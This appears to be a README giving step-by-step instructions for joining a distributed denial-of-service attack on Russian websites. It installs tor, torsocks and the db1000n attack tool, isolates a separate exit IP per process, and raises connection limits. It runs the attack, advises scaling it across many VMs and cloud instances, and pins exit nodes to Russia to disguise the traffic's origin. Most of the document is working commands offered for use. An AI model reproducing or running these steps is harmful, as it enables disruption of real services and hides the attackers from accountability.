 The following instructions allow you to participate in russian sites attack without using any 3rd party VPN, and hence without sharing your personal data with suspicious VPN resource providers and without spending any money resources for such services.

- Demo at [YouTube](https://www.youtube.com/watch?v=AVqajaICvt0) using db1000n in clean Ubuntu VM.
- Similar [demo](https://www.youtube.com/watch?v=QKLkvq8iNo0) of using tor  with wrk load test tool.
- In fact, you may run almost any command line tool with torsocks in front. Exceptions are ping/hping and other tools that use raw or udp sockets.

If you have Windows computer - the same instructions work well with WSL distributions, so go ahead and configure Windows Subsystem for Linux in your Windows PC. Personally I am using Kali Linux distribution in WSL on all my Windows PCs (sample of using LattePanda Delta can be watched [here](https://youtu.be/v1v2OhcfwFw) ).

# Installing tor and db1000n

Install tools and download db1000n 
```bash
sudo apt-get -y update && \
sudo apt-get -y install tor torsocks wget curl && \
wget https://github.com/Arriven/db1000n/releases/download/v0.8.33/db1000n_0.8.33_linux_amd64.tar.gz -O db1000n.tar.gz && \
tar xvzf db1000n.tar.gz -C ./
```

# Setting up basic tor options 

Separate IP per torsocks process:
```bash
cat /etc/tor/torsocks.conf | sed 's/#IsolatePID/IsolatePID/g' | sudo tee /etc/tor/torsocks.conf > /dev/null 
```

And max connections limit up to max possible value:
```bash
echo "ConnLimit 32267" | sudo tee -a /etc/tor/torrc > /dev/null
```

# Start tor service
```bash
sudo service tor start
```

# Check you have each time new IP
Repeat this command multiple times to verify you indeed have each time new IP address:
```bash
torsocks curl -L jsonip.com
```

You should get something similar to the following (definitely with different IPs in your case):
```bash
$ torsocks curl -L jsonip.com
{"ip":"91.92.109.43","geo-ip":"https://getjsonip.com/#plus","API Help":"https://getjsonip.com/#docs"}
$ torsocks curl -L jsonip.com
{"ip":"178.17.174.164","geo-ip":"https://getjsonip.com/#plus","API Help":"https://getjsonip.com/#docs"}
$ torsocks curl -L jsonip.com
{"ip":"185.163.204.44","geo-ip":"https://getjsonip.com/#plus","API Help":"https://getjsonip.com/#docs"}
$ torsocks curl -L jsonip.com
{"ip":"178.17.170.174","geo-ip":"https://getjsonip.com/#plus","API Help":"https://getjsonip.com/#docs"}
$
```

# Run
```bash
torsocks ./db1000n 
```
At this point you already running the attack. 
You may start multiple instances to get more load generated - due to `IsolatePID 1` option in torsocks, everything you start as separate process get separate nodes used, and as result separate IP address at the exit node.
You also may start such attack in multiple VMs (or EC2/Azure/GCE) instances to produce even more load.

The next topic is about configuring exit nodes at specific locations (for instance if you need to attack from RU internet segment).

#  Find Tor Nodes in specific country
Go to https://metrics.torproject.org/rs.html

Searching only russian outgoing relays: https://metrics.torproject.org/rs.html#search/country:ru

To use specific Nodes from the search result you may use Node's fingerprint or IP address in ExitNodes entry of the torrc config.

So to use Nodes 95.214.54.70, 82.165.116.173 and 185.32.222.237 addthe following entry to `/etc/tor/torrc` file:
```
ExitNodes 95.214.54.70,82.165.116.173,185.32.222.237
```

There is also a bit simplier way to get specific counttry location.
Instead of specifiying strict nodes IP addresses, we can use mnemonic 
country code `{ru}` to specify the desired outgoing location we would like to get in:
```bash
# this is the most end of /etc/tor/torrc file, 
# above these lines are tons of custom config
# options mainly commented with sharp sign

ExitNodes {ru}
ConnLimit 32627
```

# More information about configuring Tor
- [torrc man page](https://manpages.debian.org/testing/tor/torrc.5.en.html)
- [torsocks.conf details](https://linux.die.net/man/5/torsocks.conf)
- [DNS over Tor](https://developers.cloudflare.com/1.1.1.1/other-ways-to-use-1.1.1.1/dns-over-tor/)
